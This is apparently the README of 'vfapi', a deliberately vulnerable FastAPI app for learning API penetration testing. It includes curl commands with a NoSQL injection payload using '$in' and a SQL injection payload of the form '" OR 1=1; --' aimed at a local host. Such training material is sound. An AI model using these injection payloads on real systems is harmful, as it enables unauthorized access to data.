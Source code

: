 # vfapi
Vulnerable FastAPI

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

### Exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```
NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```
SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```
